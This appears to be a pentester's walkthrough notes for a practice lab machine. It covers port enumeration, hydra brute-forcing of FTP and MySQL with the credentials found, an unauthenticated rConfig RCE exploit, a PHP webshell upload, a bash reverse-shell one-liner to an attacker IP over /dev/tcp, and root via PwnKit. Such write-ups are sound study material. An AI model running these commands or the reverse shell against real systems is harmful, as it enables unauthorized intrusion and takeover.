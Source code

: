 ### Enumeration
```
IP=192.168.199.57
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p21,22,80,111,139,445,3306 -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 21
	- nc -nv $IP 21
		- vsFTPd 3.0.2
	- vsftpd 3.0.2
- 22
	- nc -nv $IP 22
		- SSH-2.0-OpenSSH_7.4
	- OpenSSH 7.4 (protocol 2.0)
- 80
	- nc -nv $IP 80
		- http
	- Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
	- no found exploits
- 111
	- nc -nv $IP 111
		- sunrpc
	- rpcbind     2-4
- 139
	- nc -nv $IP 139
		- netbios-ssn
	- Samba smbd 3.X - 4.X
- 445
	- nc -nv $IP 445
		- microsoft-ds
	- Samba smbd 4.10.4
- 3306
	- nc -nv $IP 3306
		- not allowed to connect
	- MariaDB
- 8081
	- Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
### Foothold
- 21
	- ftp anonymous@$IP
		- Allowed login, stuck in passive and can't view directory
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://$IP
		- anonymous:anonymous
		- ftp:ftp
		- ftp:b1uRR3
	- Tried to do a put  >  access denied
- RPC/ SMB
	- enum4linux $IP
		- min password len - 5
- 445
	- smbclient -N -L //$IP
		- successful
		- shares
			- print$
				- access denied
			- IPC$
				- allows access but nothing found
	- nmap --script smb-vuln* -p135,139,445 $IP
		- no found exploits
- SQL
	- Mysql
		- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt mysql://$IP
		- Not allowed to connect
- 80
	- Default landing page
		- ![[Pasted image 20240723114717.png]]
	- Versions
		- centOS
	- Directory Brute force
		- dirsearch -u http://$IP
			- nothing
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
	- Vulnerability scan
		- nikto -h http://$IP
			- Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
				- php rce cgi-bin exploitdb 29290
				- /icons/
- 8081
	- Default landing page
		- ![[Pasted image 20240723123427.png]]
	- Versions
		- rConfig Version 3.9.4
			- RCE unauthenticated
			- exploit db 48261
				- python rconfig_exploit.py https://192.168.199.57:8081 192.168.45.195 445
				- Used exploit, removed the code that deleted user
				- Logged in with admin user
				- Used this guide to upload php webshell
				- https://gist.github.com/farid007/9f6ad063645d5b1550298c8b9ae953ff
				- Now we can run commands
					- ![[Pasted image 20240723124634.png]]
					- `/bin/bash -i >& /dev/tcp/192.168.45.195/22 0>&1
					- To get RCE
	- Directory Brute force
		- dirsearch -u http://$IP
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
	- Vulnerability scan
		- nikto -h http://$IP
### PE
#### Linux
- apache
	- id
		- uid=48(apache) gid=48(apache) groups=48(apache)
	- sudo -l
		- needs password
	- uname -a
		- `Linux quackerjack 3.10.0-1127.10.1.el7.x86_64 #1 SMP Wed Jun 3 14:28:03 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
		- PwnKit
			- Rooted
### Credentials
### Lessons Learned
- Double check nmap scans